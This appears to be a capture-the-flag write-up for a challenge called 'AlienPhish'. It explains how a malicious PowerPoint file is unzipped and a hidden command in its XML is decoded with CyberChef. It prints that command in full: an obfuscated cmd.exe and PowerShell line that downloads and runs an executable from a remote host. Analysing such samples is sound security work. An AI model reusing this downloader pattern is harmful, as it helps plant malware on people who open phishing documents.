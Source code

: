 # AlienPhish

## Finding what to look for:
The first thing that comes to mind then when you saw the .pptx format is that its basically a zip file with bunch of stuff in there 

We can unzip it. with that done now i had much more files to work with.

Most of them were common files so looked around and i found lot of urls looking through wiki i found its usage after that it was simple i found something interesting use of target attribute:

![](https://i.imgur.com/gxYXYBn.png)


```xml=
cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
```

## Decoding 

looking through that cmd that reverse exe stood out like sore thumb so after opening cyberchef using reverse recipe and using magic/base64(on side note base64 didnt work quite right but after trying magic it gave me right flag you have to play around with alphabets )

![](https://i.imgur.com/19IiiPw.png)

## Resources 

* [.pptx format information](https://en.wikipedia.org/wiki/Office_Open_XML_file_formats)
* [Cyberchef](https://gchq.github.io/CyberChef/)
